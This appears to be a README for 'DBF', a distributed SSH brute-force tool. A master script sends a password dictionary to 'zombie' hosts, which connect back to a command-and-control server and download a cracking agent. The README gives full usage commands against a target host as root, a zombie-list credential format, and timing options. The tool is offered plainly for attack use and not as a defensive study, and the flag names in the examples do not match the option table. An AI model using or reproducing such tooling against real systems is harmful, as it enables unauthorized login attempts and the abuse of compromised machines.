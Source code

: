 # DBF         
Simple Distributed BruteForcer for SSH        
                  
## Requirement         
**OS system** : Debian/RHEL         
**Runtime Environment** : python27 with(paramiko)        
## Introduction        
\>  *owner.py*  : the master control program, which is used to connect zombie_host (read from zombie_file) and create distribute tasks(use password dictionary). owner.py is a simple distributed bruteforcer framework.                       
\>  *zombie.py* : the child script program. After connection between zombie_host and C&C_Server is establish, zombie.py will be automatically downloaded. zombie.py is a bruteforcer agent, but only support SSH cracking this version.               
## Usage                      
\#slow mode                  
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 30 -d 10                    
\#fast mode             
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -T ssh -t 30 -d 0.2                 
```text                
-H <target host>  : Host IP of target.                 
-p <target_port>  : Port to connect to on the target.                      
-u <target_user>  ：Provide username when connect to the target.                   
-F <passwd_file>  : Dictionary of passwords.                        
-Z <zombie_file>  : Provide zombie's resource. Format: 192.168.0.1:root:toor.              
-T <type>         : Only support SSH service.              
-l <threads>      ：Run threads number of connects in parallel, default 5.               
-c <interval>     : Defines the minimum wait time in seconds, default 5s. DBF use random time interval technology.The actual time interval is 5.0~10.0 seconds.                
        
```
